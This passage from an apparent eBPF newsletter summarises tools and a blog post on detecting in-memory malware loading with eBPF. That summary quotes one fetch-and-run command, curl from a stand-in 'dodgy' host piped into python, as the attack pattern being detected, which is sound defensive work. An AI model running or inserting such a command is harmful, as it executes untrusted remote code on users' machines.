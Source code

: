 {/_2021-02-15_/}

- [_Using eBPF to uncover in-memory loading_](https://blog.tofile.dev/2021/02/15/ebpf-01.html),
  from Pat H.  
  Tracing with eBPF can be adapted to nearly any use case. In this post,
  programs are attached to trace the calls to `dup2()`, `write()` and `read()`,
  in order to detect when two process are sharing information through a bash
  pipe (`|`). The objective of the experiment is to detect commands constructed
  like this: `curl https://dodgy.com/loader.py | python -`, where a rogue
  process attempts in-memory loading of a malware. The post contains a
  refresher on how writing to and reading from pipes work on Linux, making it
  easy to understand and follow where the eBPF programs are attached.

### Software Projects

- The new [https://editor.cilium.io](https://editor.cilium.io) is a NetworkPolicy editor, introduced by
  the Cilium community as an easy and interactive way to learn, create,
  visualize, and share Kubernetes NetworkPolicies. It provides an intuitive
  overview of some of the features that Cilium implements with eBPF. More
  details are available in
  [the editor's announcement](https://cilium.io/blog/2021/02/10/network-policy-editor).

- [Tracee version 0.5.0](https://github.com/aquasecurity/tracee/discussions/563)
  is out. From a tracing command line tool, the project evolves into a runtime
  security solution and now encompasses tracee-ebpf—the command-line tool
  itself—and the libbpfgo library. It also includes tracee-rules, a “new rule
  engine to process tracee-ebpf's events and detects suspicious behavior based
  on built-in and user-defined 'signatures'”, which are defined in Open Policy
  Agent's Rego language or in Go.

- [TCPDog](https://github.com/mehrdadrad/tcpdog) is a new tool to collect TCP
  statistics with eBPF and to export them to an Elasticsearch or InfluxDB
  database. It can collect from all TCP-related kernel tracepoints at the same
  time, but the parameters to collect are configurable.

### Software: Demos and Experiments

- Guardicore released [IPCDump](https://github.com/guardicore/IPCDump) for
  tracing interprocess communications on Linux, be it through pipes, FIFOs,
  signals, UNIX sockets, loopback-based networking, or pseudoterminals. It
  draws some inspiration from Windows's procmon. Internally, it uses the gobpf
  library that provides Go bindings for the BCC framework. See also
  [the announcement post](https://www.guardicore.com/labs/ipcdump-guardicores-new-open-source-tool-for-linux-ipc-inspection/)
  for more details, with a few examples of tracing communication from Chrome
  events, or between processes like containerd and dockerd.

- Liz Rice has published a set of
  [basic eBPF examples using libbpfgo](https://github.com/lizrice/libbpfgo-beginners).
  The eBPF program is trivial, the objective is to get familiar with
  [libbpfgo](https://github.com/aquasecurity/tracee/tree/main/libbpfgo), a set
  of bindings in Go to the libbpf C library.
